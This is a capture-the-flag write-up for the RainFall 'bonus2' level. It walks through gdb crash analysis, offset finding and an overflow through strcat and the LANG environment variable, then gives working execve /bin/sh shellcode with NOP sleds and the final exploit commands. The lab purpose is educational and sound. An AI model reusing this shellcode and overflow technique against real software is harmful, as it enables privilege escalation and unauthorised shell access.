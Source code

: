 This time arround there is no clear path to a shell, but there is however a call made to getenv, that changes the message displayed

```bash
bonus2@RainFall:~$ env LANG=nl ./bonus2 Enzo Dal 
Goedemiddag! Enzo
bonus2@RainFall:~$ env LANG=fi ./bonus2 Enzo Dal 
Hyvää päivää Enzo
bonus2@RainFall:~$ env LANG=wtf ./bonus2 Enzo Dal 
Hello Enzo
```

There is no calls to bash so we'll need to bring our shellcode

We can make the program crash with a pattern, but we're not able to control the full address right away

```gdb
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()

```

We can take advantage of the fact that strncpy is used, as well as strcat, so if we pass a non terminated string all kind of funky things can happen, so our first arg need to be 40 chars long for this to happen.

```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
``` 
This isnt enough to fully override the pointer still.

By default the strcat happends with "Hello", but the two other options are longer and may give us enough chars to override fully
And indeed, with the LANG set to fi we manage to choose the address we crash on.

Our offset is 18, let's build the payload


python -c 'print ("\x90" * 19 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")

0xbf ff ff 1f

python -c 'print ("\x90" * 18 + "\x1f\xff\xff\xbf")


$(python -c 'print ("\x90" * 19 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")') $(python -c 'print ("\x90" * 18 + "\x1f\xff\xff\xbf")')



```gdb
Starting program: /home/user/bonus2/bonus2 $(python -c 'print ("\x90" * 19 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")') $(python -c 'print ("\x90" * 18 + "AAAA")')
Hyvää päivää �������������������1���
                                    Qh//shh/bin��̀������������������AAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

```
So now we just need to input the correct address which seems to be 0xbffff6a0 for the start of our buffer of 40, but it's not reachable anymore so we can try the buffer des of strcat


0x0804851c in greetuser ()
(gdb) printf "%s", 0xbffff5d0 
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB(gdb) 

Ok this sould be ok but the buffers keep changing address so this is not suitable

Since this code uses env, and we know that env is exploitable and its address wont change, so we can try adding our payload to the env var.

With the payload, the address is now 0xbffff698, moving past the original text we get 0xbf ff ff 21 for the shellcode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA $(python -c 'print ("B" * 18 + "\xd0\xfe\xff\xbf")')
0xbf ff fe c0

If we go straight to the buffer we crash, so we add offset untill it works

```
export LANG=$(python -c 'print ("fi " + "\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')
~$ ./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA $(python -c 'print ("B" * 18 + "\xe0\xfe\xff\xbf")')
```

